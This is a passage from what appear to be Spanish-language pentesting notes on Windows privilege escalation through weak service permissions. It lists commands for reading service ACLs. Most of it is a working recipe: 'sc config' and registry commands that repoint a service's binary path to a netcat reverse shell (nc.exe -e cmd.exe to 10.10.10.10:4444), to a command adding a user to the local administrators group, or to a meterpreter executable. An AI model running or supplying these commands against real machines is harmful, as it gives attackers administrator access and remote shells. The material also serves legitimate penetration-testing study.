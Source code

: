 otra forma de comprobar los servicios es mediante powershell:

```bash
Get-Acl -Path hklm:\System\CurrentControlSet\services\ | format-list
```

podemos hacerlo mas legible con esto:

```bash
$acl = get-acl HKLM:\SYSTEM\CurrentControlSet\Services

ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}
```

Los servicios tiene un valor llamado **BINARY_PATH_NAME**, podemos ver el contenido de ese valor con:

```bash
sc qc <service name>

#OUTPUT

...
...
BINARY_PATH_NAME : "C:ºProgram Files\DACL Service\daclservice.exe"
...


```

Ese path se ejecuta cuando el servicio se ejecuta y es asi como sabe que programa ejecutar ese servicio, pero como tenemos permisos para cambiar la configuracion de ese servicio podemos actualizar el valor de ese parametro para que cuando se inicie el servicio se ejecute algo que nosotros queramos: 

```bash
sc config <service name> binpath="payload"
```

si nos pasamos netcat a la maquina podemos usar uno de estos ejemplos.

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config <Service_Name> binpath= "net localgroup administrators username /add"

sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

o

```bash
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\<service> -name ImagePath -value "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
```

Ahora es solo cuestion de parar y volver a iniciar el servicio para que se ejecute nuestro payload:
